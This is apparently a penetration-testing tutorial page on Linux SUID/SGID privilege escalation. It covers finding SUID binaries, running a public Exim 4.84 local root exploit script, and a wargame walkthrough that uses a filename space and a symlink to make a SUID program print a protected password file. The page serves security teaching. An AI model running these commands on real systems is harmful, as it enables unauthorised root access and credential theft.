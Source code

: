 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.

#### SGID files get executed with the privileges of the file group.

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

or

`find / -perm -2000 -o -perm -4000`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt` `cd /tmp/jhalon` `ltrace ~/printfile test.txt` \`\` `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` `access("test.txt", 4) = 0` `snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17` `system("/bin/cat test.txt"` `--- SIGCHLD (Child exited) ---` `<... system resumed> ) = 0` `+++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt` `ltrace ~/printfile "pass file.txt"` `` `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` `access("pass file.txt", 4) = 0` `snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22` `system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory` `/bin/cat: file.txt: No such file or directory` `` `--- SIGCHLD (Child exited) ---` `<... system resumed> ) = 256` `+++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass` `` `leviathan2@melinda:/tmp/jhalon$ ls -la` `` `total 7864` `drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .` `drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..` `lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3` `-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt` \`\` `leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"` `Ahdiemoo1j` `/bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.
